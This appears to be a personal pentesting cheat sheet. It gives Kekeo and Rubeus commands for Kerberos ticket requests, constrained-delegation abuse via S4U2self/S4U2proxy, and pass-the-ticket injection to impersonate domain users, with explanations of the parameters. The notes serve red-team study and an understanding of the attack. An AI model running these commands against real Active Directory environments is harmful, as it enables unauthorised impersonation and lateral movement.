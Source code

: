 # kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **Service for User (S4U)**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}

4. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

> The `kekeo` command listed above essentially performs the **S4U2self** and **S4U2proxy** steps that can be achieved with `rubeus` (refer below).

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. A TGT for the user specified in `/user`&#x20;
2. A TGS for the user specified in `/impersonateuser`&#x20;

* Using the [**S4U2self** ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)extension: the service account can use the TGS obtained to authenticate to itself (or more specifically, the service it is running) on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /ticket:<TGT> /msdsspn:<SPN> /tgs:<TGS>
```
{% endcode %}

* `/ticket` : TGT obtained from the previous step
* `/mdsspn` : Service Principal Name (SPN)
  * This value must be listed under the `msds-allowedtodelegateto` property for the service account (supplied to the `/user` field in the previous step)
* `/tgs` : The forwardable ticket retrieved from the previous step (S4U2self ticket for the user specified in `/impersonateuser`_)_

From this command, we obtain a TGS for the impersonated user (specified in `/impersonateuser`) to the service defined in `/msdsspn`.

Next, we can use the TGS we have obtained to authenticate to the service (defined in `/mdsspn`) as our desired user:

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ptt" %}

```powershell
C:\> rubeus.exe ptt /ticket:TGS
```

or by supplying the `/ptt` flag to the s4u command.

#### C. Combining all steps: TGT request, S4U2self process, S4U2proxy execution and pass-the-ticket (injection of  the final ticket)

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate> /msdsspn:<SPN> /ptt
```
{% endcode %}

